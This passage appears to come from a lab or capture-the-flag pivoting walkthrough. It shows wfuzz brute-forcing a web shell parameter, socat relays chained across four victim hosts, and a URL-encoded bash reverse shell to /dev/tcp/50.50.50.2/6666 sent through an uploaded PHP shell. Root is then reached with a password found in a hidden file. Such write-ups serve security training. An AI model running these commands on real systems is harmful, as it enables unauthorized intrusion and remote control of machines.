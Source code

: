         
    
    - By brute force I try to get the parameter used by the rever shell
        
        ```bash
        proxychains wfuzz -c -t 50 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt "http://50.50.50.3/shell.php?FUZZ=whoami" 
        ```
        
        ![image 60](https://github.com/user-attachments/assets/6fb2fb80-3b37-4393-af24-dc55775c2a5e)

        
    
    - We create a tunnel so that when doing a reverse shell we get to our computer.
        
        ```bash
        #Victim 1 (10.10.10.2)
        ./socat TCP-LISTEN:6662,fork TCP:10.10.10.1:6666
        
        #Victim 2 (20.20.20.3)
        ./socat TCP-LISTEN:6661,fork TCP:20.20.20.2:6662
        
        #Victim 3 (30.30.30.3)
        ./socat TCP-LISTEN:6660,fork TCP:30.30.30.2:6661
        
        #Victim 3 (40.40.40.3)
        ./socat TCP-LISTEN:6666,fork TCP:30.30.30.2:6660
        ```
        
    
    - we make the request to create the reverse shell
        
        ```bash
        http://50.50.50.3/uploads/a.php?cmd=bash -c "bash -i >%26 /dev/tcp/50.50.50.2/6666 0>%261"
        ```
        
        ![image 61](https://github.com/user-attachments/assets/5995542b-ebe3-48be-8555-4eeb29cc2064)

        
    
    - I do a search and find a hidden file that contains a password, I try it with root and I manage to escalate privileges.
        
        ![image 62](https://github.com/user-attachments/assets/69830029-02c5-44dd-b1a8-b773f2f579f7)
